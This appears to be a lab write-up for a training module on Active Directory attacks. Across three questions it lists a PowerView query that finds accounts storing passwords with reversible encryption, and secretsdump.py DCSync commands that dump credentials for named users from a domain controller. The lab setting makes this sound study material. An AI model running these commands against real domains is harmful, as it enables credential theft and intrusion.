 # Content

- [Content](#content)
  - [Question 1](#question-1)
    - [The way to hack](#the-way-to-hack)
    - [Answer](#answer)
  - [Question 2](#question-2)
    - [The way to hack](#the-way-to-hack-1)
    - [Answer](#answer-1)
  - [Question 3](#question-3)
    - [The way to hack](#the-way-to-hack-2)
    - [Answer](#answer-2)
  
## Question 1

### The way to hack

- I use command
- Payload:
  - Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol
  ![Picture](../../Image/An%20ACE%20in%20the%20Hole/26.png)

### Answer

![Picture](../../Image/An%20ACE%20in%20the%20Hole/27.png)

## Question 2

### The way to hack

- I user secretsdump to get the clear text.
- Payload:
  - [secretsdump.py](http://secretsdump.py/) -outputfile inlanefreight_hashes -just-dc-user syncron INLANEFREIGHT/adunn@172.16.5.5
  ![Picture](../../Image/An%20ACE%20in%20the%20Hole/28.png)

### Answer

![Picture](../../Image/An%20ACE%20in%20the%20Hole/29.png)

## Question 3

### The way to hack

- I use secretsdump to get the hash for user khartsfield.
- Payload:
  - [secretsdump.py](http://secretsdump.py/) -outputfile inlanefreight_hashes -just-dc-user khartsfield INLANEFREIGHT/adunn@172.16.5.5
  ![Picture](../../Image/An%20ACE%20in%20the%20Hole/30.png)

### Answer

![Picture](../../Image/An%20ACE%20in%20the%20Hole/31.png)